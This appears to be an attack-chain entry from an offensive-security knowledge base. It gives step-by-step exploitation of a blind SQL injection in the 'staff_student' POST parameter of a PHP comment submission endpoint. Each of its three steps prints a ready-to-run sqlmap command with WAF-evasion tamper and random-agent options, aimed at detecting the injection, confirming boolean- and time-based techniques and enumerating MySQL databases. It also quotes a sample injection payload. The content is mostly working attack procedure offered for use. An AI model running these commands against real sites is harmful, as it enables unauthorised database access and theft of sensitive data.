

---
tags:
  - sqli
  - blind-injection
  - mysql
  - php
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Detect-SQL-Injection-with-sqlmap]]'
  - '[[procedures/Confirm-SQL-Injection-Types]]'
  - '[[procedures/Enumerate-Databases-via-SQL-Injection]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:25.875Z'
description: >-
  A multi-stage attack exploiting a SQL injection vulnerability in a POST
  parameter of a PHP-based comment submission endpoint to detect the
  vulnerability, confirm injection types, and enumerate sensitive databases in a
  MySQL backend.
skill_level: intermediate
impact_level: high
id: 32250605-6606-41cb-bf85-bb34da69e5e2
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SQL Injection in Comment Submission Endpoint to Enumerate Databases

Multi-stage attack chain demonstrating exploitation of a SQL injection vulnerability in the 'staff_student' POST parameter on a PHP comment submission endpoint, leading to database enumeration and potential sensitive data exposure in a MySQL database.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5-10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]

### Target Environment

- Web application using PHP and MySQL
- Accessible HTTPS endpoint for POST requests
- No authentication required for the comment submission form

### Initial Access Requirements

- Direct network access to the target website (e.g., https://target.com)
- No prior credentials needed
- Ability to send crafted POST requests

## Detailed Attack Procedures

### Step 1: Detect SQL Injection Vulnerability
procedure: [[procedures/Detect-SQL-Injection-with-sqlmap]]

**Objective**: Test the comment submission endpoint for SQL injection in the 'staff_student' parameter using automated scanning to identify potential injection points.

**Instructions**: Launch sqlmap against the target URL with the provided POST data, focusing on the 'staff_student' parameter. Use high risk and level settings, a tamper script to bypass potential WAF, and random agents for evasion.

Execute [[commands/sqlmap-detect-sqli-post]]:

```bash
python3 sqlmap.py -l=5 --risk=3 --tamper=space2comment --random-agent -u "https://target.com/olc/xxxcomments/comment_post.php" --data="staff_student=STUDENT&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit+Comments" -p staff_student --dbms=mysql
```

**Expected Output**: Sqlmap identifies injectable parameters, such as boolean-based blind or time-based blind points, with details on payloads tested and HTTP requests made (e.g., 103 requests).

**Success Indicators**:
- Detection of injection points in 'staff_student'
- Confirmation of MySQL DBMS

### Step 2: Confirm Vulnerability and Injection Types
procedure: [[procedures/Confirm-SQL-Injection-Types]]

**Objective**: Validate the SQL injection vulnerability and determine the specific types (boolean-based blind and time-based blind) to guide further exploitation.

**Instructions**: Re-run the sqlmap detection with the same configuration to analyze and confirm the injection techniques, observing the payloads that succeed.

Execute [[commands/sqlmap-detect-sqli-post]] (reuse from Step 1 for confirmation):

```bash
python3 sqlmap.py -l=5 --risk=3 --tamper=space2comment --random-agent -u "https://target.com/olc/xxxcomments/comment_post.php" --data="staff_student=STUDENT&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit+Comments" -p staff_student --dbms=mysql
```

**Expected Output**: Detailed output showing boolean-based blind (e.g., AND WHERE clause) and time-based blind (e.g., MySQL SLEEP) injections, with example payloads like 'staff_student=STUDENT'||(SELECT 0x6545736f FROM DUAL WHERE 6919=6919 AND 4128=4128)||''.

**Success Indicators**:
- Specific injection types confirmed
- Payloads validated as working

### Step 3: Enumerate Available Databases
procedure: [[procedures/Enumerate-Databases-via-SQL-Injection]]

**Objective**: Exploit the confirmed SQL injection to list all accessible databases, revealing sensitive ones like 'testusers' for potential further data extraction.

**Instructions**: Extend the sqlmap command with the --dbs flag to enumerate database names using the blind injection techniques.

Execute [[commands/sqlmap-enumerate-databases]]:

```bash
python3 sqlmap.py -l=5 --risk=3 --tamper=space2comment --random-agent -u "https://target.com/olc/xxxcomments/comment_post.php" --data="staff_student=STUDENT&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit+Comments" -p staff_student --dbms=mysql --dbs
```

**Expected Output**: List of 13 databases, including information_schema, mysql, testusers, and others like custom application databases.

**Success Indicators**:
- Multiple databases enumerated
- Sensitive database names (e.g., testusers) identified

## Attack Chain Summary

### Key Achievements

1. Successful detection and confirmation of blind SQL injection in a public-facing web endpoint.
2. Identification of boolean-based and time-based blind techniques for exploitation.
3. Enumeration of databases, exposing potential sensitive data stores like 'testusers'.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
